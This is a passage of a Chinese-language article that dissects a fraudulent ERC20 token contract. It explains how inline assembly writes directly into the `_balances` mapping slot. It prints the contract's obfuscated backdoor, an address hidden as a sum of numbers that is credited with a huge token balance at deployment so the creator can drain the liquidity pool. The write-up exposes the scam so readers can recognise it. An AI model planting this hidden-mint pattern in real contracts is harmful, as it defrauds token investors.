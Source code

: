 第二句：`mstore(0,y)` 的意思是将数值 `y` 存储到内存位置为 0 的地方，占据 32 个字节。其实就是把地址 `0x17F6AD8Ef982297579C203069C1DbfFE4348c372` 写进去，不足的位置都补 0。

第三句：`mstore(32, 0)` 的意思是将数值 0 存储到内存位置为 32 个字节的地方，占据 32 个字节。也就是内存中从 32 字节开始，写入 32 个字节的 0。

第四句：`sstore` 这句代码的意思是将数值 666 写到一个特定位置的插槽中。这个特定位置是通过 `keccak256(0, 64)` 计算得到的。`keccak256(0, 64)` 是计算了内存中从 0 到 64 字节的数据的哈希值。内存中从 0 到 64 字节的数据，其实就是第二句和第三句写入内存的数据合并在一起。它的内容是：

```solidity
00000000000000000000000017F6AD8Ef982297579C203069C1DbfFE4348c372
0000000000000000000000000000000000000000000000000000000000000000
```

它的长度是64个字节。也就是对这个 64 字节数据进行哈希，得到的结果值作为存储位置，将 666 存进去。

问题其实就出在这个语句上。`keccak256` 语句计算出来的插槽位置，其实就是合约中状态变量 `_balances` 里的一个数据存储位置。

`_balances` 是在它的 父合约 中定义的变量，是一个 `mapping` 类型的数据。因为继承关系，当前合约也拥有了这个变量 `_balances` 。

`_balances` 就是 ERC20 代币合约中存放所有地址余额的变量。你只要修改了这里面的数据，那么对应的地址里代币的余额就修改了。

`_balances` 是一个状态变量，也就是说，它的数据存储在插槽里。由于它在合约里定义的位置在最前面，所以它被存储在第一个插槽 slot 0。

`mapping` 里存储的键值对是动态的，它可以有任意多个。它们并不跟 `mapping` 存放在一起，而是要通过 `keccak256` 计算，来决定到底该存放到哪一个位置。

计算公式就是 `keccak256(address . slot)`，其中 `address.slot` ，是指把 `address` 和槽位拼接在一起。

比如 `_balances` 槽位 `slot` 等于 0，`address` 是 `0x17F6AD8Ef982297579C203069C1DbfFE4348c372`。

那么，`keccak256(address . slot)`，实际上就是 `_balances[0x17F6AD8Ef982297579C203069C1DbfFE4348c372]` 的数据存储位置。

如果我们向这个位置写入 666，那么就意味着 `0x17F6AD8Ef982297579C203069C1DbfFE4348c372` 这个地址拥有了 666 Wei个代币。

我们再看看内联汇编中的第4条语句。`keccak256(0, 64)` 实际上就是 `keccak256(address.slot)`，就等价于 `_balances[0x17F6AD8Ef982297579C203069C1DbfFE4348c372]` 的存储位置。

所以，整个的内联汇编语句，其实就是一句 Solitity 语句:

```solidity
_balances[0x17F6AD8Ef982297579C203069C1DbfFE4348c372] = 666
```

也就是说，在部署合约的时候，就给 `0x17F6AD8Ef982297579C203069C1DbfFE4348c372` 凭空创造了 **666 Wei*** 个代币。

----

### 原始代码分析
----
明白了这些，就很容易理解欺诈合约的手段了。它的恶意代码就是在这个 _pathSet 函数中。它故意没对代码进行格式化处理，看起来比较乱，就是为了迷惑投资者。

![image](https://github.com/NinjaGPT/crypto/assets/4035112/93b91638-25f6-4c76-9459-67b96ffd1646)


其实，其它代码都是保护这段内容设置的。我们把它美化一下：
```solidity
 //......
        assembly {
            let y := add(add(mul(379858174470926,exp(10,28)),mul(61835533555714,exp(10,14))),74433453022038) 

            mstore(0, y) 
            mstore(32, 0x0) 

            sstore(keccak256(0, 64), exp(timestamp(), 6))
             
            //...... 
        }
  //......
```
这是不是跟我的代码结构是一模一样。它的变量 y ，为了不让人发现是个地址，故意拆解成多个数相加，其实加在一起，就是合约创建者自己控制的一个地址，也就是用来掏空池子的地址。合约在部署的时候，凭空为它铸造了巨量代币。
